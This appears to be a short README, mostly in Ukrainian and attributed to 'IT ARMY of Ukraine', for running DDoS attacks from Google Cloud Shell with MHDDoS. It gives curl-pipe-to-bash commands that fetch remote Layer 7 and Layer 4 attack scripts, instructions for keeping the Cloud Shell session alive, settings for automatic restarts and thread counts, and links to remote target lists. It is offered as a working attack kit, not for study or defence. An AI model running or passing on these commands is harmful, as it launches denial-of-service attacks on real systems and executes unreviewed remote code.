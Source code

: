 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session
#
# ТЕСТ
Команди для запуску атаки

по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal вмикаємо Ephemeral Mode (ставимо - "Завжди")

Налаштовано: перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4


#
#
IT ARMY of Ukraine
